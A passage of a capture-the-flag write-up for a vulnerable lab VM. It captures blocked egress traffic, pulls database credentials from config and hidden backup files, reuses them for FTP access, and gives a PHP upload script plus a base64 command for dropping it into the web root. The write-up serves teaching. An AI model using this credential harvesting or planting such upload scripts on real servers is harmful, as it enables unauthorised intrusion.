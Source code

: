 Listening on the interface with *tshark* I eventually get a connection attempt on port 443 :  

```plain
1 0.000000000 192.168.56.118 → 192.168.56.1 TCP 74 42128 → 443 [SYN] Seq=0 Win=29200 Len=0 MSS=1460 SACK_PERM=1 TSval=15199363 TSecr=0 WS=128
2 0.000075280 192.168.56.1 → 192.168.56.118 TCP 54 443 → 42128 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
```

But FTP is running on the VM and this protocol is well known for punching holes in firewalls so let's figure out how we can do this !  

First we need credentials for FTP because anonymous connection aren't allowed.  

In */var/www/html/site/wordpress/config.php* I can find the following creds :  

```php
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

Unfortunately they don't work for FTP but after some time I found a hidden file on the system : */var/www/html/.backup*  

```php
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

Those are valid credentials for FTP. When I connect the working directory is */var/www/html/site/* but I can *cd ..* to the root. The only restriction is that I'm a simple user.  

In */home/jangow01* there is the *user.txt* flag with content *d41d8cd98f00b204e9800998ecf8427e*.  

Alternative upload solution
---------------------------

With FTP I can upload useful scripts like LinPEAS but I could have instead wrote a PHP upload script on the system by executing a command like :  

```bash
echo base64_encoded_php_script | base64 -d > /var/www/html/site/upl.php
```

That upload script would have been the following :  

```php
<?php
if(!empty($_FILES['uploaded_file']))
{
    $path = "/tmp/" . basename($_FILES['uploaded_file']['name']);
    if (move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
      echo "uploaded";
    } else{
        echo "error";
    }
}
?>
```
